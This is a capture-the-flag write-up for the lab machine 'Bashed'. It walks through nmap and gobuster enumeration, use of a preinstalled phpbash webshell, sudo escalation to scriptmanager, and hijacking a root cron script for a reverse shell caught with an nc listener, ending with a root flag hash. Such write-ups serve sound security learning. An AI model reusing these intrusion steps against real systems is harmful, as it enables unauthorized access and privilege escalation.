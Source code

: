 # Machine Name
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following
```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-19 10:12 CET
Nmap scan report for 10.10.10.68
Host is up (0.040s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```
Here we can see that the running operating system is Ubuntu.  
Since this is the only port available let's dig deeper into it.  
Lets' start by poking around, when we hit the site we see a page containing:  
*phpbash helps a lot with pentesting. I have tested it on multiple different servers and it was very useful. I actually developed it on this exact server!*  
So, it seems like the creator of this box already uploaded a webshell for us, all we need to do is actually the location of this shell.
So, let's try to enumerate port 80 with gobuster and examine the results.   
```
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/server-status        (Status: 403) [Size: 299]
```
If we visit the [Arrexel GitHub Repo](https://github.com/Arrexel/phpbash) (URL disclosed inside the site), we can see that this webshell is called phpbash.php.  
So, let's go through all this directory and see where phpbash.php is located.  
as we can easilly discover phpbash is available by hittinh http://10.10.10.68/dev/phpbash.php.  
Now we have accesso to this box as www-data.

## User
Now that we are logged in as www-data, we can quickly check our capabilities.
First thing first, let's enumerate sudo.
```
www-data@bashed:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
Now we can easily escalate to scriptmanager and see if we can escalate privileges from there.
```
www-data@bashed:/var/www/html/uploads$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/uploads$
```

## Root
Now, since the name of this user seems to refer to a scripting user, let's find files owned by him.
```
scriptmanager@bashed:/var/www/html/uploads$ find / -user scriptmanager | grep -v proc                                      
find: /scripts                                      
/scripts/test.py                                          
'/root': Permission denied                          
find: /home/scriptmanager                           
/home/scriptmanager/.profile                        
/home/scriptmanager/.bashrc                         
/home/scriptmanager/.nano                           
/home/scriptmanager/.bash_history                   
/home/scriptmanager/.bash_logout
```
Now, if we switch to /scripts directory we can see a simple script ```test.py``` that write text to ```test.txt```.  
Now, if we inspect dates/permissions wit a simple ls, we can see the following:
```
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Nov 19 01:47 test.txt
```
the file test.txt gets written every one minute and the owner/groop is root:root, so we can suppose that there is a cronjob that is writing test.txt each minute.  
If we edit test.py, we can set a python reverse shell, open a listener on our local machine and wait for the shell to pop up.  
```
root@kali:~/Documents/HTB/Boxes/Bashed# nc -lvnp 8083
listening on [any] 8083 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.68] 55988
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```
